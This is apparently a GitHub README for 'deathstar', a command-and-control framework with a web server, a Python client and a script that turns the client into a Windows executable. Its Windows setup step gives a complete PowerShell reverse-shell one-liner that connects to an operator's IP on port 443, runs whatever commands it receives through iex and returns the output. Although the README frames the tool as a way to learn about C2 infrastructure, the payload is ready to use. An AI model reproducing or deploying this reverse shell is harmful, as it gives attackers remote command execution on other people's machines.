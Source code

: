 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a CLI based C2 connection manager.

`stardestroyer.py` is the "preffered" option to connecting to the C2 server.

`converter.sh` will convert `stardestroyer.py` into an EXE.

# Deathstar web page
<img width="991" alt="Screenshot 2024-12-21 at 12 46 55 AM" src="https://github.com/user-attachments/assets/6a6addfc-2875-47ff-bb39-ac332fa91f11" />

# Download deathstar

```git clone github.com/bwithe/deathstar```


# Web C2 server 
1. Start the server
    - `python3 deathstar.py`
2. Open link in web browser
    - `firefox 127.0.0.1:8000`
3. Have CLIENT connect to C2
    - Linux / MacOS
      - `python3 client.py`
    - Windows
        - `powershell -nop -c "$c=New-Object System.Net.Sockets.TCPClient('<DEATHSTAR_IP>',443);$s=$c.GetStream();$s.Write([byte[]](@(0x0A)),0,1);while($true){$b=[byte[]]::new(1024);$r=$s.Read($b,0,1024);$t=[text.encoding]::ASCII.GetString($b,0,$r).Trim();if($t -eq 'die'){exit};if($t -eq 'hostname'){$o=$env:COMPUTERNAME}elseif($t -eq 'whoami'){$o=$env:USERNAME}else{$o=iex $t 2>&1|Out-String};$o=$o.Trim()+[char]10;$d=[text.encoding]::ASCII.GetBytes($o);$s.Write($d,0,$d.Length)}"`
